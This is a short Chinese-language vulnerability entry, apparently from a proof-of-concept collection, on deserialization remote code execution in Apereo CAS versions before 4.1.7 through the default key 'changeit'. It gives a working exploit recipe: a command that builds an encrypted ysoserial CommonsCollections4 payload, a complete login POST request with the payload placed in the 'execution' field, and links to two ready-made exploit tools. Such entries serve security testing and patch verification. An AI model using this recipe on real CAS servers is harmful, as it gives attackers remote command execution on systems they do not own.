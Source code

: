 ## 漏洞概述

[默认密钥]-4.1.x 反序列化RCE

其4.1.7版本之前存在一处默认密钥（changeit）的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令

## 影响范围

```http
Apereo-CAS < 4.1.7
```

## POC

1、使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)利用ysoserial的CommonsCollections4生成加密后的Payload

```bash
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

2、然后登录CAS并抓包，将Body中的`execution`值替换成上面生成的Payload

```http
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

## EXP

两个都是图形化工具

**EXP1**：cas_exploit-1.0-SNAPSHOT-all.jar

**EXP2**：[@nice0e3](https://github.com/nice0e3/Cas_Exploit)